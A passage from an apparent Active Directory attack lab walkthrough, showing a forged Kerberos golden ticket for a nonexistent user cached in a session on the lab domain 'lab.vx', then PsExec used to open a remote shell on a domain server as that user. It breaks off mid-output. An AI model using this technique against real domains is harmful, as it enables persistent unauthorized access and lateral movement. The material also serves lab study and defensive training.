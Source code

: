 ### 5.2.3. Use the golden ticket to connect to **any** domain machine

- Verify golden ticket in session

```cmd
C:\Users\john>hostname
CLIENT

C:\Users\john>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.17.13
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.17.1

C:\Users\john>klist

Current LogonId is 0:0x50b951

Cached Tickets: (1)

#0>     Client: nonexistentuser @ lab.vx
        Server: krbtgt/lab.vx @ lab.vx
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/23/2022 15:47:53 (local)
        End Time:   4/20/2032 15:47:53 (local)
        Renew Time: 4/20/2032 15:47:53 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- Attempt to connect to domain member machine

```cmd
C:\Users\john>PsExec.exe \\SVR.lab.vx cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
lab\nonexistentuser

C:\Windows\system32>hostname
SVR

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

```